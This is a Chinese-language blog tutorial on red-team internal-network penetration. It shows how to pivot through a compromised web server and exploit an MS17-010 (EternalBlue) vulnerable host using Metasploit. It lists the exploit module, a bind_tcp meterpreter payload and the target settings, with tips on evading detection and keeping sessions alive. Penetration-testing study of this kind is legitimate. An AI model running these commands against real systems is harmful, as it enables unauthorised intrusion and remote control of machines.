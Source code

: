在红蓝对抗中，当拿到了位于边界主机的权限后，我们通常会以此为跳板，搭建一个通往[内网](https://so.csdn.net/so/search?q=%E5%86%85%E7%BD%91&spm=1001.2101.3001.7020)的隧道，以此继续渗透内网。而在内网中首先想到的就是MS17-010了，因为在内网中，安全措施相对较弱，很多主机存在此漏洞。

现在有这么一个场景，我们通过web漏洞拿到了内网提供web服务器的主机192.168.10.10，并且搭建了通往内网的隧道，现在我们通过探测发现内网主机192.168.10.14存在MS17-010漏洞，所以我们现在就要利用MSF对其进行攻击了。

![](https://img-blog.csdnimg.cn/20190813151110632.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们内网的kali主机，ip为192.168.10.11，通过设置代理为VPS的地址，而可以访问靶机的内网了。现在我们在kali上利用MS17-010打192.168.10.20。注意，这里一定要用正向连接，也就是我们的kali主机主动去连接192.168.10.14。

```
use exploit/windows/smb/ms17_010_eternalblue      
set payload windows/x64/meterpreter/bind_tcp   #这里的payload必须是正向的      
set rhosts 192.168.10.14      
set rhost  192.168.10.14      
exploit
```


![](https://img-blog.csdnimg.cn/2019081314544640.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70) v![](https://img-blog.csdnimg.cn/20190813150921898.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20190813151343966.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

这样打成功率很低，有可能打好几次才能成功一次。并且我们主动去连接，容易被防火墙和杀毒发现。并且成功后的session也并不稳定，很容易died。

还需要注意的是，我们不能通过输入 shell 而进入cmd的session，这样会超时

![](https://img-blog.csdnimg.cn/2019081315124789.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

网上很多人说得用方程式组织原版的攻击脚本成功率才高。

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[利用公网Msf+MS17010跨网段攻击内网](https://zhuanlan.zhihu.com/p/47234317 "利用公网Msf+MS17010跨网段攻击内网")

                  [内网渗透之ms17-010-Freebuf](https://www.freebuf.com/column/208598.html "内网渗透之ms17-010-Freebuf")

                  [内网渗透之ms17-010-简书](https://www.jianshu.com/p/2f31c453c70f "内网渗透之ms17-010-简书")